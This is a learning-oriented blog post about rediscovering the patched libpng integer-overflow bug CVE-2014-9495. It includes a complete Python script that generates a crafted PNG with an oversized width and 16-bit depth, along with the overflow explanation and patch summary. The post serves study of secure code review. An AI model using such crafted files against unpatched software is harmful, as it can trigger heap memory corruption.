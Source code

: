 ```yaml
---
title: "How I Discovered a Libpng Vulnerability 11 Years After It Was Patched"
date: 2025-07-06
tags: ["security", "secure code review", "libpng", "CVE-2014-9495", "learning", "bug hunting"]
description: "A beginner's journey into secure code review, and how I accidentally rediscovered an 11-year-old vulnerability in libpng."
draft: false
---
```


> **Disclaimer:** This is **NOT** a zero-day. This is a learning experience from my journey into secure code review, where I accidentally rediscovered a vulnerability that was patched back in **2014** (CVE-2014-9495).  
> I'm sharing this to help others who are also learning and want to understand how vulnerabilities work in real-world code.
> Special thanks to [Taym](https://x.com/taym95) 
---

## The Backstory

I'm currently learning secure code review and wanted to pick a real-world open-source project to practice on. I chose [libpng](https://www.libpng.org/pub/png/libpng.html) the widely-used C library for handling PNG images.

While doign the code review, I found a few interesting things. But for this blog post will fous only on one. 

It seems like a serious security issue : the code calculate memory based on user-controlled values like `width` and `bit depth`, and there weren't any obvious safety checks in the version I was reviewing.

So I tried to crash it and it worked... Well, kind of.

Instead of crashing, `libpng` stopped me in my tracks with an error. That's when I realized this bug was already discovered and patched... back in **2014**!

But hey I still learned a lot, and now I'm sharing that story.

---

## The sample which Trigger the vulnerable code

Crafted a special PNG file using Python. This PNG had:

- A **ridiculously large width** (`0x80000000`, or 2GB)  
- A **bit depth of 16**

This combination was enough to overflow an internal memory calculation, which should lead to a heap buffer overflow.

Here is the script I used to produce the test (bad sample):

```python
import struct, zlib

def chunk(type_str, data_bytes):
    length = struct.pack(">I", len(data_bytes))
    type_encoded = type_str.encode("ascii")
    crc = struct.pack(">I", zlib.crc32(type_encoded + data_bytes) & 0xffffffff)
    return length + type_encoded + data_bytes + crc

png = b"\x89PNG\r\n\x1a\n"

# Dangerous values: 2GB width + 16-bit depth
width = 0x80000000
height = 1
bit_depth = 16
color_type = 2
compression_method = 0
filter_method = 0
interlace_method = 0

ihdr_data = struct.pack(">IIBBBBB",
                        width, height, bit_depth,
                        color_type, compression_method,
                        filter_method, interlace_method)

png += chunk("IHDR", ihdr_data)
png += chunk("IEND", b"")

with open("overflow_width_bitdepth.png", "wb") as f:
    f.write(png)

print("[*] Malicious PNG created.")
```


When I opened this PNG with libpng, here's what I got:

```
libpng error: PNG unsigned integer out of range
libpng error during init_io

```

That's not just a crash that's libpng detecting something fishy and refusing to process it. Basically:

> “Not so 1337.”

What Was the Actual Bug?
Let us break it down.

In older versions of libpng, the code responsible for calculating how much memory was needed per image row looked like this:

```
rowbytes = width * (bit_depth * channels + 7) / 8;

```

[Buggy snippet]:(https://github.com/pnggroup/libpng/blob/libpng16/png.c#L1984-L1990)

This line multiplies user-supplied values like width and bit_depth.

Now imagine:

width = 2,147,483,648 (2GB)
bit_depth = 16

The multiplication overflows a 32-bit unsigned integer. This silently wraps around to a smaller number, so libpng allocates less memory than needed.

That's a classic vulnerability: Integer overflow ➜ Miscalculated buffer size ➜ Heap buffer overflow


The Patch (CVE-2014-9495)
In 2014, this exact issue was discovered and patched under CVE-2014-9495.

Patch Summary: 
    Added range checks before doing any memory calculations
    Ensured that values like width * bit_depth * channels don't overflow
    Returned an error if something looked suspicious
Now, the fixed version throws an error like:

```
libpng error: PNG unsigned integer out of range

```
Simplified Patch Logic
```
if (width > PNG_UINT_31_MAX || (width * bit_depth * channels) > PNG_SIZE_MAX)
    png_error(png_ptr, "Image width is too large for this architecture");

```

Patch for the bug is over here : [patch](https://sourceforge.net/p/libpng/code/ci/6d8c88177af0bd8732489f11e7c63cf861e30321/)

My Learning/s: 
    Always audit from source to sink, vulnerable looking code might be safe if it's validated somewhere else.
    Integer overflows in C are sneaky
    No crash doesn't mean it's not worth exploring
    LibPNG or other similar highly audit code will not give 0-day like this (Try Harder, lol)

Wrapping Up
If you're learning security or bug hunting like me, don't be afraid to dig into old projects and experiment. Even if you don't find new bugs, you'll uncover real-world lessons just like I did with this 11-year-old vulnerability.

Stay curious. Keep exploring.
